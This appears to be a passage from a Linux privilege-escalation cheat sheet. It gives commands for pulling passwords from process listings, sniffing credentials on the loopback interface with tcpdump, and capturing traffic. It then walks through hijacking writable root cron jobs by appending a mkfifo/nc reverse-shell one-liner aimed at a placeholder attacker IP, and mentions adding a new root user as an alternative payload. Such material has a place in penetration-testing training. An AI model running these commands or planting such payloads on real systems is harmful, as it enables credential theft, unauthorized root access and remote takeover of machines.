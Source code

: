 **Monitor active processes** for passwords and other credentials

```bash
watch -n 1 "ps -aux | grep pass"
```

**Sniff passwords** on the loopback interface using `tcpdump`

```bash
sudo tcpdump -i lo -A | grep "pass"
```

**Inspect Tcpdump**

```bash
tcpdump -i any -s0 -w capture.pcap
tcpdump -i eth0 -w capture -n -U -s 0 src not 10.11.1.111 and dst not 10.11.1.111
tcpdump -vv -i eth0 src not 10.11.1.111 and dst not 10.11.1.111
```

### _Cron_ Jobs

Look for CronJobs that are running with higher privileges but are writable by the current user. If found, you can modify these scripts to escalate privileges.

1.  **Find CRON Jobs**

```bash
grep "CRON" /var/log/syslog
or
cat /var/log/cron.log
```

2.  **Check permissions** for the script

```bash
ls -lah /path/to/script.sh
```

3.  **Modify the script to add a reverse shell** (in case we have permissions to edit), depending on the case another possible payloads could be added, for example adding a new root user.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [attacker_ip] [listener_port] >/tmp/f" >> /path/to/script.sh
```

4.  **(Optional)** Other Commands to Inspect Cron Jobs.

```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
